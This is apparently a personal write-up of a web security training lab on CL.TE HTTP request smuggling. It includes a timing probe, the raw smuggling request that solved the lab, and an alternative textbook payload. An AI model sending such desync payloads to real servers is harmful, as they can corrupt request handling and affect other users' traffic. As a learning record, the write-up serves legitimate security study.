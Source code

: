 # Practitioner Lab 128: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

---

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

The first Request I did gave me a timeout

![Untitled](Practitioner%20Lab%20128%20HTTP%20request%20smuggling,%20confi%20fd0ea55a2ab94a8d85bb24683a268970/Untitled.png)

```
POST / HTTP/1.1
Host: 0ac100a3040731e98097c696000200a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
abc
X

```

This means that its a CL TE 

```
POST / HTTP/1.1
Host: 0ac100a3040731e98097c696000200a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

try : gotyou
```

I changed the request to the following 

![Untitled](Practitioner%20Lab%20128%20HTTP%20request%20smuggling,%20confi%20fd0ea55a2ab94a8d85bb24683a268970/Untitled%201.png)

I didn’t need the content-type but this was a mistake, nonetheless it still did work. 

This got me the not found page and solved the lab.

This is because front end gets the whole content length which is valid but the back end does not. 

Another solution couldve been 

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```